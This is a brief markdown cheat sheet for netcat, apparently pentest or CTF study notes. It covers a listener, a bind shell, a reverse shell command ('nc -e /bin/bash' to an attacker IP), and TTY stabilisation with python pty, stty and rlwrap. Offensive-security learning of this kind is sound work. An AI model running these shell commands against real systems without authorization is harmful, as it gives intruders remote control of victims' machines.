 ## Basics

```
nc -lnvp <port>
```

listen for incoming connection on port.

_use sudo when port is below 1024._

_443 is a good port to use._

```
nc <ip> <port>
```

bind shell.

___

## Reverse shell

```
sudo nc -e /bin/bash <ip>
```

connect to attacker machine using bash.

_Effectively establish a reverse shell._

___

## Stabilisation

### Using Python

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

Then `Ctrl + Z` 

```
stty raw -echo; fg
```

### Using rlwrap

```
rlwrap nc -lnvp <port>
```
